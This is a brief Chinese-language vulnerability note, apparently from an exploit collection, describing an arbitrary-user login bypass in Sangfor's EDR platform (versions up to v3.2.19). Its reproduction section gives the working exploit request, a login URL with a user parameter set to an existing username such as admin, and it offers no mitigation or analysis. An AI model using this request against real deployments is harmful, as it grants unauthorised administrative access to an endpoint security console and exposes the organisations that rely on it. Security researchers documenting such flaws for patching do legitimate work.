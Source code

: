 # 深信服 EDR 后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 影响版本

```
EDR <= v3.2.19
```

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

注意最后的admin需要为存在的用户名

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091912509.png)

